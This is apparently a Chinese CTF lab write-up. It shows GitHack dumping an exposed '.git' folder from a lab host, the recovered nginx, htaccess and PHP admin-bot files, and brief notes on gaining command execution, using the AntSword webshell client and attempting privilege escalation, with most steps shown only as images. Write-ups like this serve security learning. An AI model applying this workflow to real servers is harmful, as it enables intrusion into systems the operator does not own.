 \____|_|\__|_| |_|\__,_|\___|_|\_\{0.0.5}
 A '.git' folder disclosure exploit.

[*] Check Depends
[+] Check depends end
[*] Set Paths
[*] Target Url: http://192.168.137.104/.git/
[*] Initialize Target
[*] Try to Clone straightly
[*] Clone
正克隆到 '/root/tools/GitHack-master/dist/192.168.137.104'...
Username for 'http://192.168.137.104': 123
Password for 'http://123@192.168.137.104': 
致命错误：'http://192.168.137.104/.git/' 鉴权失败
[-] Clone Error
[*] Try to Clone with Directory Listing
[*] http://192.168.137.104/.git/ is support Directory Listing
[*] Initialize Git
[!] Initialize Git Error: 提示： 使用 'master' 作为初始分支的名称。这个默认分支名称可能会更改。要在新仓库中
提示： 配置使用初始分支名，并消除这条警告，请执行：
提示：
提示： 	git config --global init.defaultBranch <名称>
提示：
提示： 除了 'master' 之外，通常选定的名字有 'main'、'trunk' 和 'development'。
提示： 可以通过以下命令重命名刚创建的分支：
提示：
提示： 	git branch -m <name>


[*] Try to clone with Cache
[*] Cache files
[*] packed-refs
[*] config
[*] HEAD
[*] COMMIT_EDITMSG
[*] ORIG_HEAD
[*] FETCH_HEAD
[*] refs/heads/master
[*] refs/remote/master
[*] index
[*] logs/HEAD
[*] logs/refs/heads/master
[*] Fetch Commit Objects
[*] objects/b4/09ae52f1f27e51c0041a1a9079d301133266fa
[*] objects/64/42f9558de272627d5bdc2baa8808e3e46e0918
[*] objects/af/f22f58c8dcfd5535cab50dca5b2bb2c2b79435
[*] objects/3a/54667fdd1357fe97cc0030aca0543650733ba8
[*] objects/0e/926b0dccc3ebabc70d5ec935c8940f1111363a
[*] objects/fb/3f381eefe8c33ea7151921e637f9a8ee7cad15
[*] objects/54/e3cc3f64b031833ce92d7a677f99c8f3ee0750
[*] Fetch Commit Objects End
[*] logs/refs/remote/master
[*] logs/refs/stash
[*] refs/stash
[*] Valid Repository
[+] Valid Repository Success

[+] Clone Success. Dist File : /root/tools/GitHack-master/dist/192.168.137.104
                                                                                                                                                                                                        
root@LingMj:~/tools/GitHack-master# 
                                                                                                                                                                                                        
root@LingMj:~/tools/GitHack-master# 
                                                                                                                                                                                                        
root@LingMj:~/tools/GitHack-master# cd dist/192.168.137.104 
                                                                                                                                                                                                        
root@LingMj:~/tools/GitHack-master/dist/192.168.137.104# ls -al
总计 40
drwxr-xr-x 3 root root  4096  4月25日 04:29 .
drwxr-xr-x 4 root root  4096  4月25日 04:29 ..
-rw-r--r-- 1 root root  1044  4月25日 04:29 ctf.conf
drwxr-xr-x 8 root root  4096  4月25日 04:29 .git
-rw-r--r-- 1 root root   307  4月25日 04:29 .htaccess
-rw-r--r-- 1 root root  3951  4月25日 04:29 index.php
-rw-r--r-- 1 root root  1535  4月25日 04:29 nginx.conf
-rw-r--r-- 1 root root 12288  4月25日 04:29 .test.php.swp
                                                                                                                                                                                                        
root@LingMj:~/tools/GitHack-master/dist/192.168.137.104# cat .test.php.swp      
?3210#"! UtpXadX?????{yxR.????LJI'?li/test.phputf-8
 ?
  ?
   ⎼
    =
     <
      +

       ?
        ?
         ?
          ┬
           ┴
                                                                                                                                                                                                        
root@LingMj:~/tools/GitHack-master/dist/192.168.137.104# ls -al
总计 40
drwxr-xr-x 3 root root  4096  4月25日 04:29 .
drwxr-xr-x 4 root root  4096  4月25日 04:29 ..
-rw-r--r-- 1 root root  1044  4月25日 04:29 ctf.conf
drwxr-xr-x 8 root root  4096  4月25日 04:29 .git
-rw-r--r-- 1 root root   307  4月25日 04:29 .htaccess
-rw-r--r-- 1 root root  3951  4月25日 04:29 index.php
-rw-r--r-- 1 root root  1535  4月25日 04:29 nginx.conf
-rw-r--r-- 1 root root 12288  4月25日 04:29 .test.php.swp
                                                                                                                                                                                                        
root@LingMj:~/tools/GitHack-master/dist/192.168.137.104# vim .test.php.swp 

zsh: suspended  vim .test.php.swp
                                                                                                                                                                                                        
root@LingMj:~/tools/GitHack-master/dist/192.168.137.104# cat ctf.conf     
server {
        listen 80;
        root /var/www/html;
        index index.php;

        location ~ .*\.(css|js|png|jpg)$ {
            proxy_cache cache;
            proxy_cache_valid 200 3m;
            proxy_cache_use_stale error timeout updating;
            expires 3m;
            add_header Cache-Control "public";
	    add_header X-Cache $upstream_cache_status;
            proxy_pass http://127.0.0.1:8080;
            proxy_set_header Host $host;
            proxy_set_header X-Real-IP $remote_addr;
            proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
            proxy_set_header X-Forwarded-Proto $scheme;
        }
        location / {
            proxy_pass http://127.0.0.1:8080;
            proxy_set_header Host $host;
            proxy_set_header X-Real-IP $remote_addr;
            proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
            proxy_set_header X-Forwarded-Proto $scheme;
        }

        access_log /var/log/nginx/access.log;
        error_log /var/log/nginx/error.log;

}
                                                                                                                                                                                                        
root@LingMj:~/tools/GitHack-master/dist/192.168.137.104# cat .htaccess    
RewriteEngine On

# 如果 /visit 被直接访问，重写到 /index.php
RewriteRule ^visit /index.php [L]
RewriteRule ^profile /index.php [L]

# 确保其他请求（例如静态文件）不被重写
RewriteCond %{REQUEST_FILENAME} !-f
RewriteCond %{REQUEST_FILENAME} !-d
RewriteRule ^(.*)$ /index.php [L]
                                                                                                                                                                                                        
root@LingMj:~/tools/GitHack-master/dist/192.168.137.104# cat nginx.conf
user www-data;
worker_processes auto;
pid /run/nginx.pid;
include /etc/nginx/modules-enabled/*.conf;

events {
	worker_connections 768;
	# multi_accept on;
}

http {
	proxy_cache_path /tmp keys_zone=cache:10m max_size=1g inactive=60m use_temp_path=off;
	##
	# Basic Settings
	##

	sendfile on;
	tcp_nopush on;
	tcp_nodelay on;
	keepalive_timeout 65;
	types_hash_max_size 2048;
	server_tokens off;

	# server_names_hash_bucket_size 64;
	# server_name_in_redirect off;

	include /etc/nginx/mime.types;
	default_type application/octet-stream;

	##
	# SSL Settings
	##

	ssl_protocols TLSv1 TLSv1.1 TLSv1.2 TLSv1.3; # Dropping SSLv3, ref: POODLE
	ssl_prefer_server_ciphers on;

	##
	# Logging Settings
	##

	access_log /var/log/nginx/access.log;
	error_log /var/log/nginx/error.log;

	##
	# Gzip Settings
	##

	gzip on;

	# gzip_vary on;
	# gzip_proxied any;
	# gzip_comp_level 6;
	# gzip_buffers 16 8k;
	# gzip_http_version 1.1;
	# gzip_types text/plain text/css application/json application/javascript text/xml application/xml application/xml+rss text/javascript;

	##
	# Virtual Host Configs
	##

	include /var/www/html/ctf.conf;
}


#mail {
#	# See sample authentication script at:
#	# http://wiki.nginx.org/ImapAuthenticateWithApachePhpScript
# 
#	# auth_http localhost/auth.php;
#	# pop3_capabilities "TOP" "USER";
#	# imap_capabilities "IMAP4rev1" "UIDPLUS";
# 
#	server {
#		listen     localhost:110;
#		protocol   pop3;
#		proxy      on;
#	}
# 
#	server {
#		listen     localhost:143;
#		protocol   imap;
#		proxy      on;
#	}
#}
                                                                                                                                                                                                        
root@LingMj:~/tools/GitHack-master/dist/192.168.137.104# ls     
ctf.conf  index.php  nginx.conf
                                                                                                                                                                                                        
root@LingMj:~/tools/GitHack-master/dist/192.168.137.104# ls -al
总计 52
drwxr-xr-x 3 root root  4096  4月25日 04:30 .
drwxr-xr-x 4 root root  4096  4月25日 04:29 ..
-rw-r--r-- 1 root root  1044  4月25日 04:29 ctf.conf
drwxr-xr-x 8 root root  4096  4月25日 04:29 .git
-rw-r--r-- 1 root root   307  4月25日 04:29 .htaccess
-rw-r--r-- 1 root root  3951  4月25日 04:29 index.php
-rw-r--r-- 1 root root  1535  4月25日 04:29 nginx.conf
-rw-r--r-- 1 root root 12288  4月25日 04:29 .test.php.swp
-rw-r--r-- 1 root root 12288  4月25日 04:31 .test.php.swp.swp
                                                                                                                                                                                                        
root@LingMj:~/tools/GitHack-master/dist/192.168.137.104# cd .git                
                                                                                                                                                                                                        
root@LingMj:~/tools/GitHack-master/dist/192.168.137.104/.git# ls -al 
总计 56
drwxr-xr-x  8 root root 4096  4月25日 04:29 .
drwxr-xr-x  3 root root 4096  4月25日 04:30 ..
drwxr-xr-x  2 root root 4096  4月25日 04:29 branches
-rw-r--r--  1 root root   14  4月25日 04:29 COMMIT_EDITMSG
-rw-r--r--  1 root root   92  4月25日 04:29 config
-rw-r--r--  1 root root   73  4月25日 04:29 description
-rw-r--r--  1 root root   23  4月25日 04:29 HEAD
drwxr-xr-x  2 root root 4096  4月25日 04:29 hooks
-rw-r--r--  1 root root  441  4月25日 04:29 index
drwxr-xr-x  2 root root 4096  4月25日 04:29 info
drwxr-xr-x  3 root root 4096  4月25日 04:29 logs
drwxr-xr-x 11 root root 4096  4月25日 04:29 objects
-rw-r--r--  1 root root   41  4月25日 04:29 ORIG_HEAD
drwxr-xr-x  5 root root 4096  4月25日 04:29 refs
                                                                                                                                                                                                        
root@LingMj:~/tools/GitHack-master/dist/192.168.137.104/.git# cat config                
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
                                                                                                                                                                                                        
root@LingMj:~/tools/GitHack-master/dist/192.168.137.104/.git# cd info   
                                                                                                                                                                                                        
root@LingMj:~/tools/GitHack-master/dist/192.168.137.104/.git/info# ls -al
总计 12
drwxr-xr-x 2 root root 4096  4月25日 04:29 .
drwxr-xr-x 8 root root 4096  4月25日 04:29 ..
-rw-r--r-- 1 root root  240  4月25日 04:29 exclude
                                                                                                                                                                                                        
root@LingMj:~/tools/GitHack-master/dist/192.168.137.104/.git/info# cat exclude        
# git ls-files --others --exclude-from=.git/info/exclude
# Lines that start with '#' are comments.
# For a project mostly in C, the following would be a good set of
# exclude patterns (uncomment them if you want to use them):
# *.[oa]
# *~
                                                                                                                                                                                                        
root@LingMj:~/tools/GitHack-master/dist/192.168.137.104/.git/info# cd ..      
                                                                                                                                                                                                        
root@LingMj:~/tools/GitHack-master/dist/192.168.137.104/.git# cd logs 
                                                                                                                                                                                                        
root@LingMj:~/tools/GitHack-master/dist/192.168.137.104/.git/logs# ls -al
总计 16
drwxr-xr-x 3 root root 4096  4月25日 04:29 .
drwxr-xr-x 8 root root 4096  4月25日 04:29 ..
-rw-r--r-- 1 root root  307  4月25日 04:29 HEAD
drwxr-xr-x 4 root root 4096  4月25日 04:29 refs
                                                                                                                                                                                                        
root@LingMj:~/tools/GitHack-master/dist/192.168.137.104/.git/logs# cat HEAD   
0000000000000000000000000000000000000000 b409ae52f1f27e51c0041a1a9079d301133266fa akaRed <akaRed@redshome.top> 1745198644 +0000	commit (initial): add some file
b409ae52f1f27e51c0041a1a9079d301133266fa b409ae52f1f27e51c0041a1a9079d301133266fa root <root@LingMj.LingMJ> 1745569777 -0400	reset: moving to HEAD
                                                                                                                                                                                                        
root@LingMj:~/tools/GitHack-master/dist/192.168.137.104/.git/logs# cd refs 
                                                                                                                                                                                                        
root@LingMj:~/tools/GitHack-master/dist/192.168.137.104/.git/logs/refs# ls -al
总计 16
drwxr-xr-x 4 root root 4096  4月25日 04:29 .
drwxr-xr-x 3 root root 4096  4月25日 04:29 ..
drwxr-xr-x 2 root root 4096  4月25日 04:29 heads
drwxr-xr-x 2 root root 4096  4月25日 04:29 remote
                                                                                                                                                                                                        
root@LingMj:~/tools/GitHack-master/dist/192.168.137.104/.git/logs/refs# cd ..  
                                                                                                                                                                                                        
root@LingMj:~/tools/GitHack-master/dist/192.168.137.104/.git/logs# cd ..
                                                                                                                                                                                                        
root@LingMj:~/tools/GitHack-master/dist/192.168.137.104/.git# cd ..
                                                                                                                                                                                                        
root@LingMj:~/tools/GitHack-master/dist/192.168.137.104# ls -al
总计 52
drwxr-xr-x 3 root root  4096  4月25日 04:30 .
drwxr-xr-x 4 root root  4096  4月25日 04:29 ..
-rw-r--r-- 1 root root  1044  4月25日 04:29 ctf.conf
drwxr-xr-x 8 root root  4096  4月25日 04:29 .git
-rw-r--r-- 1 root root   307  4月25日 04:29 .htaccess
-rw-r--r-- 1 root root  3951  4月25日 04:29 index.php
-rw-r--r-- 1 root root  1535  4月25日 04:29 nginx.conf
-rw-r--r-- 1 root root 12288  4月25日 04:29 .test.php.swp
-rw-r--r-- 1 root root 12288  4月25日 04:31 .test.php.swp.swp
                                                                                                                                                                                                        
root@LingMj:~/tools/GitHack-master/dist/192.168.137.104# vim -r .test.php.swp

zsh: suspended  vim -r .test.php.swp
                                                                                                                                                                                                        
root@LingMj:~/tools/GitHack-master/dist/192.168.137.104# vim -r .test.php.swp

  1 <?php
  2 //czj
  3 if ($_SERVER['REMOTE_ADDR'] !== '127.0.0.1') {
  4     header('HTTP/1.1 403 Forbidden');
  5     echo "Access Denied";
  6     exit;
  7 }
  8 
  9 $admin_password=getenv('ADMIN_PASS');
 10 $base_url = 'http://127.0.0.1:80'; 
 11 $log_file = __DIR__ . '/log';
 12 
 13 
 14 function write_log($message) {                                                                                                                                                                      
 15     global $log_file;
 16     $timestamp = date('Y-m-d H:i:s');
 17     $log_entry = "[$timestamp] $message\n";
 18     file_put_contents($log_file, $log_entry, FILE_APPEND);
 19 }
 20 
 21 function login_and_get_cookie() {
 22     global $base_url, $admin_password;
 23     $ch = curl_init();
 24     curl_setopt($ch, CURLOPT_URL, "$base_url/login");
 25     curl_setopt($ch, CURLOPT_POST, true);
 26     curl_setopt($ch, CURLOPT_POSTFIELDS, http_build_query([
 27         'username' => 'admin',
 28         'password' => $admin_password
 29     ]));
 30     curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
 31     curl_setopt($ch, CURLOPT_HEADER, true);
 32     curl_setopt($ch, CURLOPT_COOKIEJAR, '');
 33     curl_setopt($ch, CURLOPT_FOLLOWLOCATION, false);
 34 
 35     $headers = [
 36         'User-Agent: Bot',
 37         'Accept: application/json',
 38         'Content-Type: application/x-www-form-urlencoded'
 39     ];
 40     curl_setopt($ch, CURLOPT_HTTPHEADER, $headers);
 41 
 42     $response = curl_exec($ch);
 43     if (curl_errno($ch)) {
 44         write_log("cURL login error: " . curl_error($ch));
 45         curl_close($ch);
 46         return null;
 47     }
  49     $header_size = curl_getinfo($ch, CURLINFO_HEADER_SIZE);
 50     $header = substr($response, 0, $header_size);
 51     curl_close($ch);
 52 
 53     preg_match('/PHPSESSID=([^;]+)/', $header, $matches);
 54     return $matches[1] ?? null;
 55 }
 56 
 57 function bot_runner($uri) {
 58     global $base_url;
 59     $cookie = login_and_get_cookie();
 60     
 61     if (!$cookie) {
 62         write_log("Failed to get admin cookie");
 63         return;
 64     }
 65 
 66     $ch = curl_init();
 67     curl_setopt($ch, CURLOPT_URL, "$base_url/$uri");
 68     curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
 69     curl_setopt($ch, CURLOPT_COOKIE, "PHPSESSID=$cookie");
 70     curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);
 71     curl_setopt($ch, CURLOPT_COOKIEFILE, '');
 72    
 73     $response = curl_exec($ch);
 74     if (curl_errno($ch)) {
 75         write_log("cURL visit error: " . curl_error($ch));
 76     } else {
 77         write_log("Bot visited $uri, response: " . substr($response, 0, 100));
 78     }
 79     curl_close($ch);
 80     sleep(1);
 81 }
 82 
 83 if (isset($_GET['uri'])) {
 84     $uri = $_GET['uri'];
 85     write_log("Bot triggered for URI: $uri");
 86     bot_runner($uri);
 87     echo "Bot executed";
 88 } 
```

>这个逻辑好像是log可以找到用户和密码这样就能命令执行了
>

  

>
>这里好像能读内容

  
  

>测了半天看一眼wp
>

  

>密码不是这个么
>
  

  

>好了到舒服的地方了
>

  
  


## 提权

>无法固定终端么,坏了无法固定终端太难利用了
>

  
  

>换蚁剑看看有没有终端用
>

  

>好狗啥也没有，我想想咋获取一个好的shell
>

  

>改了nigx没成功好像是压根不是利用这个所以导致的
>

  

>改一下端口操作一下让我能利用
>

  
